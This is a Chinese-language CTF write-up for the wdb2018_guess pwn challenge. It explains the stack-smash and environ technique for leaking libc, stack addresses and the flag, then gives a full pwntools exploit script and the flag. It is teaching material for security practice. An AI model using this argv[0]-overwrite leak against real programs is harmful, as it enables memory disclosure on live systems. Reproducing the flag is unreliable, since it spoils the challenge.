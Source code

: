 # wdb2018_guess

[题目地址](https://buuoj.cn/challenges#wdb2018_guess)

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

不细看还以为这道题是那种溢出覆盖`\x00`然后输出的题，结果再仔细看一眼main，嗯你怎么不输出？

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch] BYREF
  __int64 v6; // [rsp+20h] [rbp-80h]
  __int64 v7; // [rsp+28h] [rbp-78h]
  char buf[48]; // [rsp+30h] [rbp-70h] BYREF
  char s2[56]; // [rsp+60h] [rbp-40h] BYREF
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v7 = 3LL;
  LODWORD(stat_loc.__uptr) = 0;
  v6 = 0LL;
  sub_4009A6(a1, a2, a3);
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), buf, 0x30uLL);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( v6 >= v7 )
    {
      puts("you have no sense... bye :-) ");
      return 0LL;
    }
    if ( !(unsigned int)sub_400A11() )
      break;
    ++v6;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(s2);
  if ( !strcmp(buf, s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```

不懂了。搜了[wp](https://blog.csdn.net/Y_peak/article/details/115470540)得知这题是[stack smash](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#stack-smash)考点。stack smash有点反其道而行之，平时我们看见canary都是想办法绕过去，这个技巧倒好，就是要你报`*** stack smashing detected ***`。

```
This is GUESS FLAG CHALLENGE!
Please type your guessing flag
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You should take more effort to get six sence, and one more challenge!!
*** stack smashing detected ***: ./pwn/pwn terminated
```

这是测试时输出的内容。`*** stack smashing detected ***`不是重点，重点是后面的`./pwn/pwn`。这个值并不是固定的，它的值取决于argv[0]指向的内容，一般都是文件名。有一个致命的问题，argv[0]是存在栈上的，我们可以溢出过去，覆盖原本的argv[0]为got表什么的，就能泄露地址了。

需要动调得到argv[0]距离溢出点的位置，这道题是0x128。此题还涉及到了另一个知识点——environ环境变量，可参考这篇[文章](https://bbs.pediy.com/thread-258248.htm)。

- 在 Linux 系统中，glibc 的环境指针 environ(environment pointer) 为程序运行时所需要的环境变量表的起始地址，环境表中的指针指向各环境变量字符串。从以下结果可知环境指针 environ 在栈空间的高地址处。因此，可通过 environ 指针泄露栈地址

利用environ获取栈上任意一个变量地址有两步：

1. 得到libc地址后，libc基址+_environ的偏移量=_environ的地址
2. 通过_environ的地址得到_environ的值，从而得到环境变量地址，环境变量保存在栈中，所以通过栈内的偏移量，可以访问栈中任意变量

```python
from pwn import *
p = remote('node4.buuoj.cn',28151)
puts_got = 0x602020

p.sendlineafter('Please type your guessing flag',b'a'*0x128 + p64(puts_got)) #先泄露libc地址，0x128个a是填充，让puts_got得以覆盖到argv[0]
p.recvuntil('stack smashing detected ***: ')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr - 456336
log.success('libc_base :' + hex(libc_base))
environ = libc_base + 3960632
info('environ_addr=',hex(environ))
p.sendlineafter('Please type your guessing flag',b'a'*0x128 + p64(environ)) #然后泄露environ地址
p.recvuntil('stack smashing detected ***: ')
buf_addr = u64(p.recv(6).ljust(8,b'\x00')) - 0x168 #这是environ地址距离flag字符串地址的偏移，需要动调计算
log.success('flag_addr=',hex(buf_addr))
p.sendlineafter('Please type your guessing flag',b'a'*0x128 + p64(buf_addr)) #这次覆盖为buf地址，canary报错就可以得到flag了
p.interactive() 
```

## Flag
> flag{bbc90eca-87e9-4a3a-81bb-6abfef946443}